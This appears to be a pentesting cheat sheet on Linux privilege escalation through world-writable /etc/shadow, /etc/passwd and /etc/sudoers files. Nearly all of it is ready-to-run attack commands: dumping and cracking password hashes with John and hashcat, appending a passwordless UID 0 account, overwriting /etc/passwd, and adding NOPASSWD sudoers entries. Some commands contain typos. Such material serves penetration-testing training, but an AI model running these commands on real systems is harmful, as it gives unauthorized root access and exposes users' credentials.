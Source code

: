 # World-Writable Files
If config files like /etc/passwd, /etc/shadow, or /etc/sudoers are writable, you can manipulate them for privilege escalation.
As an ethical hacker or penetration tester, exploiting world-writable files is a common technique for privilege escalation on Linux systems. World-writable files allow any user to write to them, which can be leveraged to gain higher privileges. Here are some techniques to exploit world-writable files for privilege escalation:

## 📌/etc/shadow file:
The /etc/shadow file contains user password hashes and is usually readable only by the root user.

### Method-1️⃣: Crack Password using John The Ripper.
Try to Creach the password using John The Ripper.
```
ls -la /etc/shadow		# → Check the /etc/shadow file permission
cat /etc/shadow			# → View the content.
```
Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.
Save the root user hash into a file called hash.txt in your attacking machine.
Crack the password:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Switch to the root user using the cracked password
```
su root
```

### Method-2️⃣: Replace the password hash for root users in /etc/shadow file with our encrypted password.
Generate a new password hash with a password of your choice:
```
mkpasswd -m sha-512 newpasswordhere
```
Copy the ouput --> Then.
```
vim /etc/shadow
```
Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.
```
:wq!
su root
id && whoami
```

### Method-3️⃣: Crack Password using hashcat.
View the content of the /etc/passwd and /etc/shadow files.
```
cat /etc/passwd
cat /etc/shadow
```
Copy or Save the content in attacking machine.
```
vim passwd.txt
# → Paste the /etc/passwd file content
:wq

vim shadow.txt
# → Paste the /etc/shadow file content
:wq
```
Crack the password
```
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

## 📌/etc/passwd file:
The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.
Note that the /etc/passwd file is world-writable:
```
ls -la /etc/passwd
```

### Method-1️⃣: Add new user to the system with GID and UID of 0 
```
echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
su - root2
id && whoami
```

### Method-2️⃣:  Remove root's password
```
vi /etc/passwd
# → Remove X (Password Holder) for root
wg!
su root
id && whoami

#or

echo root::0:0:root:/root:/bin/bash > /etc/passwd
id && whomai
```

### Method-3️⃣: Replace the password hash for existing users in /etc/passwd file with our encrypted password.
```
openssl passwd -1 -salt ignite NewRootPassword
# → Copy output
echo "root2:<output>:0:0:root:/root:/bin/bash" >> /etc/passwd
# → Replace <output> with the copied output
su root2
id && whoami
```

## 📌/etc/sudores file:
/etc/sudoers File Controls who can run what commands as root or other users using sudo. It defines user and group permissions for sudo.
Allows privilege escalation by letting certain users execute commands as another user (typically root).

### Method-1️⃣: Edit or modify /etc/sudoers files and Allow for your current user.
```
echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers  # → Replace <username> with your current user (Example: www-data)
sudo su
id && whoami
```

### Method-2️⃣: Use SUDO without password
```
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

# 🔎Resourses
- https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/
- https://github.com/Ignitetechnologies/Linux-Privilege-Escalation
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#writable-etcsudoers
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://github.com/Divinemonk/linux_privesc_cheatsheet
- https://github.com/gurkylee/Linux-Privilege-Escalation-Basics
